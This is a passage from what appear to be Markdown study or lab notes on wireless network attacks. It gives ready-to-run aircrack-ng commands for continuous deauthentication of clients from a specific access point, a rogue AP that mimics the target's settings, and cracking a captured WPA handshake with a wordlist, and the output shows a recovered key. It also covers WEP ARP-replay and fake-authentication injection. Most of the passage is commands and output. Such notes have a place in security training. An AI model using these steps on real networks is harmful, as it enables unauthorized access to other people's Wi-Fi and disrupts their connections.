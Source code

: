 🧠 Clients try to connect if signal is stronger  
🪝 Handshake captured even though auth fails

---

🔹 **Forcing Clients to Connect**

```bash
sudo airmon-ng start wlan1 1
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon
```

💣 Sends continuous deauth packets  
🔄 Clients drop target AP and try our rogue AP  
📶 Higher chance of handshake capture

---

🔹 **Cracking the Handshake**

```bash
aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst
```

🎯 **KEY FOUND!** [ `teddybear` ]  
🔓 PSK recovered from captured handshake

---

🔹 **Wireshark - Mostar AP Snapshot**

```
ESSID: Mostar  
BSSID: FC:7A:2B:88:63:EF  
Channel: 1  
Encryption: WPA1/WPA2 (TKIP & CCMP)  
Auth: PSK  
Speed: 130 Mbps → 802.11n
```

🧬 Rogue AP must **mimic** these parameters

---

### 📘 **WEP Attacks**


- There are no handshakes here.

------------------------

#### 🔹 ARP Replay Attack - Generate More Traffic

```
aireplay-ng -3 -b <BSSID> -h <your MAC> wlan0mon
```

------------------------------

#### 🔹 Fake Authentication (If ARP Replay Fails)

```
aireplay-ng -1 0 -a <BSSID> -h <your MAC> wlan0mon
```


>Associates your interface with the AP before injection. Required in some cases to bypass AP restrictions.

-----------------------

